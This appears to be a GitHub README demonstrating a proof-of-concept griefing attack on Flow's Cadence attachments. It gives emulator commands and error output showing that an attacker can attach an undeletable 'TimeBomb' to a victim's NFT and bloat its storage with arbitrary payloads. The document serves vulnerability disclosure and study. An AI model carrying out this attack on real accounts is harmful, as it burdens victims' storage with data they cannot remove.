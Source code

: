 ## Attachments Example

> Informal repo containing examples with Cadence attachments as the feature

### Troll Attack

This is a proof of concept of an attack vector using attachments to bloat the storage of a base resource with an attachment that cannot be removed. This attack could be made more widespread by enabling the dispersal of these `Troll` resources and enabling anyone on Flow to execute this attack.

#### Replication

1. Deploy the project on emulator
    ```shh
    flow run
    ```

1. Create a victim account
    ```sh
    flow accounts create # account name: victim
    ```

1. Setup the MockTopShot Collection & mint an NFT, first adding an attachment before depositing. This is done for simplicity at time of minting, but you can imagine an attacker could do this with any preconfigured Collection by transfering to a victim's public `Receiver`
    ```sh
    flow transactions send transactions/setup_collection_and_mint_nft_with_attachment.cdc --signer victim
    ```

1. With the attachment added to the NFT which is now in the victim's Collection, the attacker can now add data to the attachment by getting a reference to the NFT and secondarily referecing the attachment. This can be run an arbitrary number of times, and even looped within the transaction given an array of payload strings or with another data type that would allow for programatic iteration.
    ```sh
    flow transactions send transactions/add_data_by_reference.cdc 0x179b6b1cb6755e31 31 "PAYLOAD_STRING"
    ```

1. We can see the data that's been added with the following script.
    ```sh
    flow scripts execute scripts/get_time_bomb_data.cdc 0x179b6b1cb6755e31 31
    ```

1. Finally, we'll try and fail to remove the attachment from the nft
    ```sh
    flow transactions send transactions/remove_and_destroy_time_bomb_fails.cdc 31 --signer victim
    ```

And the panic in the `TimeBomb` attachment's `destroy` method prevents us from removing
```
	* transaction execute failed: [Error Code: 1101] cadence runtime error: Execution failed:
  --> dfecd9fe22c5f797447d173275e6da8b34421baf468bfbd7bbd6006754a76582:20:8
   |
20 |         remove TrollAttacker.TimeBomb from attackedNFT
   |         ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

error: panic: Can't destroy, you've been trolled!!!
  --> f8d6e0586b0a20c7.TrollAttacker:44:12
   |
44 |             panic("Can't destroy, you've been trolled!!!")
   |             ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
```